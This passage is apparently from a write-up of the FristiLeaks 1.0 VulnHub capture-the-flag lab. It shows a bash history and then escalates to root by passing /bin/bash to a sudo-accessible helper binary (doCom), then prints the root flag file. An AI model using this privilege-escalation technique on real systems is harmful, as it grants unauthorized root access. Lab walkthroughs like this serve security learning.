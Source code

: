 ```bash
   13  sudo -u fristi ./doCom ls /
   14  sudo -u fristi /var/fristigod/.secret_admin_stuff/doCom ls /
   15  exit
   16  sudo -u fristi /var/fristigod/.secret_admin_stuff/doCom ls /
   17  sudo -u fristi /var/fristigod/.secret_admin_stuff/doCom
   18  exit
   19  sudo -u fristi /var/fristigod/.secret_admin_stuff/doCom
   20  exit
   21  sudo -u fristi /var/fristigod/.secret_admin_stuff/doCom
   22  sudo /var/fristigod/.secret_admin_stuff/doCom
   23  exit
   24  sudo /var/fristigod/.secret_admin_stuff/doCom
   25  sudo -u fristi /var/fristigod/.secret_admin_stuff/doCom
   26  exit
   27  sudo -u fristi /var/fristigod/.secret_admin_stuff/doCom
   28  exit
   29  sudo -u fristi /var/fristigod/.secret_admin_stuff/doCom
   30  groups
   31  ls -lah
   32  usermod -G fristigod fristi
   33  exit
   34  sudo -u fristi /var/fristigod/.secret_admin_stuff/doCom
   35  less /var/log/secure e
   36  Fexit
   37  exit
   38  exit
   39  whoami
   40  sudo -l
   41  history
```

10、提权到 root

```bash
bash-4.1$ sudo -u fristi /var/fristigod/.secret_admin_stuff/doCom /bin/bash

sudo -u fristi /var/fristigod/.secret_admin_stuff/doCom /bin/bash
bash-4.1# id
id
uid=0(root) gid=100(users) groups=100(users),502(fristigod)
```

```bash
bash-4.1# cd /root
cd /root

bash-4.1# ls
ls
fristileaks_secrets.txt

bash-4.1# cat fristileaks_secrets.txt
cat fristileaks_secrets.txt
Congratulations on beating FristiLeaks 1.0 by Ar0xA [https://tldr.nu]

I wonder if you beat it in the maximum 4 hours it's supposed to take!

Shoutout to people of #fristileaks (twitter) and #vulnhub (FreeNode)


Flag: Y0u_kn0w_y0u_l0ve_fr1st1

```
